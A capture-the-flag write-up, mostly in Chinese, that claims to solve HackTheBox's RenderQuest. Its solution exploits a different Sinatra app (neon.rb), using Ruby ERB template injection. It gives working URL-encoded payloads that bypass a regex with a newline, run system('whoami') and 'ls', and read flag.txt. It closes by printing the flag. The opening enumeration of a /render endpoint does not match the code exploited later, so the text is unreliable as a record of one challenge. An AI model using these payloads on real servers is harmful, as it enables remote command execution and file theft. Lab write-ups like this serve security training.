 ```yaml
---
title: 'HackTheBox: RenderQuest writeup'
disqus: hackmd
---
```


HackTheBox: RenderQuest Writeup
===


## Table of Contents

[TOC]

## Topic

### Lab
#### HackTheBox: 
https://app.hackthebox.com/challenges/RenderQuest

### Initial Enumeration

●Start Machine: 
http://94.237.57.59:38703 \
(301) http://94.237.57.59:38703/render?page=index.tpl
![94.237.57.59_38703_render_page=index.tpl](https://hackmd.io/_uploads/Skb9oZTWC.png)


Submit: CHW
![image](https://hackmd.io/_uploads/B1ckgza-R.png)
> http://94.237.57.59:38703/render?use_remote=true&page=CHW
> 500 (Internal Server Error)

## Solution

### 1.Code Review
neon.rb
```ruby=
class NeonControllers < Sinatra::Base

  configure do
    set :views, "app/views"
    set :public_dir, "public"
  end

  get '/' do
    @neon = "Glow With The Flow"
    erb :'index'
  end

  post '/' do
    if params[:neon] =~ /^[0-9a-z ]+$/i
      @neon = ERB.new(params[:neon]).result(binding)
    else
      @neon = "Malicious Input Detected"
    end
    erb :'index'
  end

end
```

提交的@neon 需要符合正規表達式: `/^[0-9a-z ]+$/i`
1. 正則表達式的開始和結束都被斜槓 / 包圍
2. ^ 符號表示匹配字串的開頭
3. `[0-9a-z ] 匹配所有數字、小寫字母和空格
4. +表示至少有一個或多個符合前面指定的字符
5. $ 表示匹配字串的結尾
6. i 表示不區分大小寫

> ERB (Ruby)
> 想嘗試Ruby SSTI

### 2. SSTI
```
neon=<%= 7*7 %>
```
> 不符合正表達式，肯定會被擋

● [Ruby Bypass regular expression](https://davidhamann.de/2022/05/14/bypassing-regular-expression-checks/) : abc\n<%= 7*7 %>
> 嘗試過\n ，無法識別
> URL-encoded: %0A

### 3. %0A bypass regular expression
#### 3.1 neon=chw%0A<%= 7*7 %>
● 使用chw%0A<% 7*7 %>
```
neon=chw%0A%3C%257%2A7%25%3E
```
![image](https://hackmd.io/_uploads/SylqO_L-C.png)
> (1) 在網頁上直接輸入會被視為字元，使用 BurpSuite Repeater\
> (2) 嘗試 double encode

● 嘗試 double encode
```
neon=chw%0A%253C%2525%25207%252A7%2520%2525%253E
```
![image](https://hackmd.io/_uploads/HkpyWt8bA.png)

> 顯示 encode一次的值，代表:
> (1) 輸入有效
> (2) 確認系統會decode 一次
> Final 試到天荒地老，後來才發現使用 <%= 才會顯示結果

● chw%0A<%= 7*7 %>
```
neon=chw%0A%3C%25%3D7%2A7%25%3E
```
![image](https://hackmd.io/_uploads/rJoROu8-0.png)
> 成功顯示 49。
> 代表成功執行ERB，可以進行SSTI

#### 3.2 Execute Command
● <%= system("whoami") %>
```
neon=chw%0A%3C%25%3D%20system%28%22whoami%22%29%20%25%3E
```
![image](https://hackmd.io/_uploads/Syrxj_8WR.png)
> 誤以為user: true

● <%= system("ls") %>
```
neon=chw%0A%3C%25%3D%20system%28%22ls%22%29%20%25%3E
```
![image](https://hackmd.io/_uploads/rkCYo_LZC.png)
> True again.
> 改用Ruby 語法

### 4. Read Files In Ruby: File.read('flag.txt')
● [Read Files In Ruby](https://www.rubyguides.com/2015/05/working-with-files-ruby/): **File.read/write/open('<file name>')**

● <%= File.read('/flag.txt') %>
```
neon=chw%0A%3C%25%3D%20File.read%28%27%2Fflag.txt%27%29%20%25%3E
```
![image](https://hackmd.io/_uploads/B1iphuLb0.png)
> 顯示500 Internal Server Error

 ![image](https://hackmd.io/_uploads/BJAC6dUb0.png)
> 猜測: 沒有權限訪問根目錄

### 5. Get FLAG

● **<%= File.read('flag.txt') %>** 
```
neon=chw%0A%3C%25%3D%20File.read%28%27flag.txt%27%29%20%25%3E
```  
![image](https://hackmd.io/_uploads/S1jvnOUb0.png)

> **FLAG: HTB{r3pl4c3m3n7_s3cur1ty}**
    
###### tags: `Web` `CTF` `SSTI`

